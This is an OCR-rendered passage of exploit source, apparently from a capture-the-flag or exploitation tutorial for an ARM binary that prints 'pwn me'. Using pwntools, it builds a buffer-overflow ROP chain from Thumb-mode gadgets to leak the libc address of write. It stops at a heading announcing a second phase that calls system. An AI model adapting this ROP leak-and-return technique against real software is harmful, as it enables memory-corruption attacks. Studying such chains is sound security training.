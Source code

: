 _junk = b&#39;A&#39;\*104_

_gadget1 = 0x0001049e + 1 # one is added to convert in thumb mode_

_gadget2 = 0x00010492 + 1_

_write\_plt = 0x0001035c # write@plt taken from main_

_write\_got = e.got[&#39;write&#39;] # write@got_

_main = 0x10434 + 1 # starting address of main_

_# first rop chain to leak write@GLIBC_

_payload1 = junk_

_payload1 += p32(gadget1)_

_payload1 += p32(write\_plt)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x1)_

_payload1 += p32(write\_got)_

_payload1 += p32(0x4)_

_payload1 += p32(gadget2)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(main)_

_p.recvuntil(&quot;pwn me\n&quot;)_

_p.sendline(payload1)_

_file = open(&quot;payload1.bin&quot;, &quot;wb&quot;) # For debugging purposes_

_file.write(payload1)_

_file.close()_

_leaked\_write = u32(p.recv().strip()[-10:-6])_

_log.success(&#39;Leaked write@GLIBC: &#39; + hex(leaked\_write))_

_#### Phase 02 - Calling System_
